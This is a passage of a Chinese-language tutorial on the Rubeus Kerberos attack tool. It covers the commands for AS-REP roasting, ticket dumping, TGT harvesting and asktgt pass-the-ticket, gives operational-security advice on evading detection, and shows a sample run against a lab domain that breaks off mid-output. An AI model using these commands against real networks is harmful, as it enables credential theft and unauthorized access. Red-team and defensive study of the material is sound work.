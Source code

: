 ```
        Rubeus.exe asreproast /user:USER [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]

    Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
        Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]

    Monitor every SECONDS (default 60) for 4624 logon events and dump any TGT data for new logon sessions:
        Rubeus.exe monitor [/interval:SECONDS] [/filteruser:USER]

    Monitor every MINUTES (default 60) for 4624 logon events, dump any new TGT data, and auto-renew TGTs that are about to expire:
        Rubeus.exe harvest [/interval:MINUTES]


  NOTE: Base64 ticket blobs can be decoded with :

      [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String
```

接下来，我将介绍每个功能，用实例来解释每个函数的操作方法和使用安全警告，以及一个或多个例子。

另外，如上所示，除非指定了/ptt 选项，Rubeus 将会按列输出 blobs 的base64编码。要使用这些 blobs 数据，最简单的方法就是将其拷贝到 Sublime/VS code 之类的编辑器中，然后将“n ”做一个搜索/替换，从而将所有内容变成一行。然后就可以将得到的 base64 blob(s) 票据传递给其他的Rubeus 函数，或者用 powershell 简单地将它们保存到磁盘 :

**[IO.File]::WriteAllBytes(“ticket.kirbi”, [Convert]::FromBase64String(“aaBASE64bd…”))**

### <a class="reference-link" name="asktgt"></a>asktgt

**asktgt ** 操作将为指定的用户和加密密钥（**/rc4** or **/aes256** ）创建原始的 AS-REQ (TGT 请求) 数据。如果没有指定 /domain 参数，则默认使用主机当前所在域，如果没有指定 /dc 参数，则使用 [DsGetDcName](https://docs.microsoft.com/en-us/windows/desktop/api/dsgetdc/nf-dsgetdc-dsgetdcnamea) 来获取主机当前所在域的域控。如果认证成功，则解析收到的 AS-REP 并将 KRB-CRED（一个包含用户 TGT 的.kirbi 文件）输出为 base64 格式的 blob。如果指定 /ptt 参数，则将执行“pass the ticket”，即将生成的 Kerberos 凭证应用于当前登陆会话。而 /luid:X 参数则将生成的票据应用于指定的登陆会话（需要管理员权限）。如果指定了 /createnetonly:X 参数，则将使用 [CreateProcessWithLogonW()](https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithlogonw) 创建一个新的隐藏进程（除非指定了/show参数），其SECURITY_LOGON_TYPE被设置为9，相当于 runas /netonly。然后请求到的票据将应用于这个新的登录会话。

从操作上来说，这是 Mimikatz 的 sekurlsa::pth 命令的一个替代方案，该命令启动一个虚拟登陆会话/进程，并将提供的 hash 注入到进程中，从而启动接下来的票据交互过程。此进程将附加于 LSASS 进程并将对其内存进行操作，这个动作易被作为安全检测的特征，同时也需要管理员权限。

而在我们的实现中（或者Kekeo的tgt::ask模块里），由于我们只是将原始的 Kerberos 数据发送到当前或指定的域控上，在运行的主机上无须提升权限。我们只需要用户的正确的 rc4_hmac (**/rc4**) 或者 aes256_cts_hmac_sha1 (**/aes256**) hash ，就可以用来请求此用户的 TGT 了。

另外，还有一个操作安全说明：一次只能将一个 TGT 应用于当前登录会话。因此，使用 /ptt 选项应用新票据时会清除之前的 TGT。一个解决方法是使用 /createnetonly:X 参数， 或者使用 ptt /luid:X 来请求票据并应用于另外的登陆会话。

```
c:Rubeus&gt;Rubeus.exe asktgt /user:dfm.a /rc4:2b576acbe6bcfda7294d6bd18041b8fe /ptt

 ______        _
(_____       | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ | ___ | | | |/___)
| |   | |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.0.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 2b576acbe6bcfda7294d6bd18041b8fe
[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building AS-REQ (w/ preauth) for: 'testlab.localdfm.a'
[*] Connecting to 192.168.52.100:88
[*] Sent 230 bytes
```